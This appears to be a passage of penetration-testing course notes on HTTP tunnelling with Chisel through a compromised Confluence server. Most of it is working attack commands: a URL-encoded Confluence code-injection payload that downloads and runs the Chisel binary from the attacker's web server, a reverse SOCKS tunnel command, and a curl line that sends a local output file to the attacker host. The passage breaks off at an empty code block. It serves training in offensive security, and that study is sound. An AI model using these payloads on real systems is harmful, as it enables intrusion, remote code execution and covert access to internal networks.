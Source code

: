 ## 19.1. HTTP Tunneling
### 19.1.2. HTTP Tunneling with Chisel
#### Copying the Chisel binary to the Apache2 server folder
```Shell
cp $(which chisel) /var/www/html/
```
#### Starting Apache2
```Shell
systemctl start apache2
```
#### The Wget payload we use to download the Chisel binary to `/tmp/chisel` on CONFLUENCE01 and make it executable
```
wget 192.168.45.155/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
In a cURL command:
```Shell
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.155.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
#### The request for the Chisel binary hitting our Apache2 server
```Shell
tail -f /var/log/apache2/access.log
```
Output:
```
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```
#### Starting the Chisel server on port 8080.
```Shell
chisel server --port 8080 --reverse
```
#### Starting tcpdump to listen on TCP/8080 through the tun0 interface
```Shell
tcpdump -nvvvXi tun0 tcp port 8080
```
#### The Chisel client command we run from the web shell
```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```
#### Starting the Chisel client using the Confluence injection payload
```Shell
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity.
#### The error-collecting-and-sending command string
```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```
#### The error-collecting-and-sending injection payload
```Shell
```